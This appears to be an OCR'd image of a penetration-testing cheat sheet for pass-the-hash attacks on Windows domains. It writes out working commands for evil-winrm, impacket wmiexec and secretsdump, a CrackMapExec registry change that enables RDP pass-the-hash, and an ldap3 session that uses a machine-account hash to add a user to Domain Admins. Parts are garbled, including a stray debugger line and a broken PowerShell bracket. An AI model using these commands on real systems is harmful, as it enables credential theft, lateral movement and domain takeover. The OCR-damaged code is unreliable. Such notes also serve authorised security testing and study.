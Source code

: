 # WINRM PTH
evil-winrm.rb -i 10.0.0.1 -u rosborne -H BD1C6503987F8FF006296118F359FA79
python /usr/share/doc/python3-impacket/examples/wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:&lt;ntlm hash&gt; Administrator@&lt;target&gt;
wmiexec.py osobrnepro.com/rosborne@10.0.0.1 -hashes aad3b435b51404eeaad3b435b51404ee:BD1C6503987F8FF006296118F359FA79

# RDP PTH
# Only possible when the system has Restricted Admin Mode enabled
# Enable Restricted Admin Mode
cme smb 10.0.0.1 -u Administrator -H 8846F7EAEE8FB117AD06BDD830B7586C -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'
xfreerdp /u:admin /d:domain /pth:hash:hash /v:&lt;ip&gt;\n"

# LDAP PTH (Impacket Collection)
# Dump Hashes
secretsdump.py rosborne@10.0.0.1 -hashes aad3b435b51404eeaad3b435b51404ee:BD1C6503987F8FF006296118F359FA79

# Authenticate to Exchange Server
python3
&gt;&gt;&gt; import ldap3
&gt;&gt;&gt; user = 'OSBORNEPRO\\EXCHANGE$'
&gt;&gt;&gt; password = 'aad3b435b51404eeaad3b435b51404ee:6216d3268ba7634e92313c8b60293248'
&gt;&gt;&gt; server = ldap3.Server('OSBORNEPRO.COM')
from ldap3 import Server, Connection, SIMPLE, SYNC, ALL, SASL, NTLM
connection = ldap3.Connection(server, user=user, password=password, authentication=NTLM)
&gt;&gt;&gt; connection.bind()
&gt;&gt;&gt; from ldap3.extend.microsoft.addMembersToGroups import ad_add_members_to_groups as addUsersInGroups
&gt;&gt;&gt; user_dn = 'CN=IT User,OU=Standard Accounts,DC=osbornepro,DC=com'
&gt;&gt;&gt; group_dn = 'CN=Domain Admins,CN=Users,DC=osbornepro,DC=com'
&gt;&gt;&gt; addUsersInGroups(connection, user_dn, group_dn)
True

debugger eval code:1:62
$DomainObj = [System.DirectoryServices.ActiveDirectory.Domain)::GetCurrentDomain()
$PDC = ($DomainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($DomainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
